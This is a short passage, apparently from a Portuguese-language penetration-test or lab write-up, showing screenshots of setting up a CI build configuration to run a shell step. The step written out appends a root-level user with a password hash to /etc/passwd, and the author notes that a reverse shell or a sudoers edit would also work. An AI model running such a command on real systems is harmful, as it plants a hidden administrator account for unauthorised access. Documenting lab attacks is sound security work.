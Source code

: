 ![alt text](/assets/img/internal/internal7.png)

Cliquei em Build Configuration e preenchi o nome, no próximo passo de skip
![alt text](/assets/img/internal/internal8.png)

Escolhi adicionar um usuário no passwd via command line, pode fazer reverse shell, add o usuário sys-intenal no sudoers... etc

`echo 'pentest2:$6$z8cdUIDN1PCXgR/f$JZ3zd3Y45sd/RN6nDigDf.KZorSCLs9OgfuYnDWxOg0/tyCAOQrPC4LbNpLT8/USVe2O9y6KgXR4kOYzQQqZ61:0:0:root:/root:/bin/bash' >> /etc/passwd`

![alt text](/assets/img/internal/internal9.png)
